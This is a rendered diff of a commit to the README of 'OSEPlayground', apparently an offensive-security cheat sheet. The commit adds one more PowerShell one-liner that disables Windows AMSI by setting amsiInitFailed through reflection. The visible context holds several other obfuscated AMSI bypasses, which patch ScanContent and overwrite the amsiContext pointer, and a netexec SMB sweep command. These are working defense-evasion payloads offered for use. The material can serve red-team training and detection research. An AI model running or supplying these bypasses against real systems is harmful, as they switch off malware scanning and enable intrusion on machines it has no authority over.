

Before and after one commit to Extravenger/OSEPlayground, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -41,7 +41,6 @@ netexec smb 172.16.149.0/24 --log hosts.txt && sed -i 's/x64//g' hosts.txt && ca
 ```
 class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1)
 ```
-
 - Windows 10:
 ```
 S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
@@ -49,6 +48,10 @@ S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{
 ```
 $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
 ```
+```
+(([Ref].Assembly.gettypes() | ? {$_.Name -like "Amsi*utils"}).GetFields("NonPublic,Static") | ? {$_.Name -like "amsiInit*ailed"}).SetValue($null,$true)
+```
+
 
 
 
````
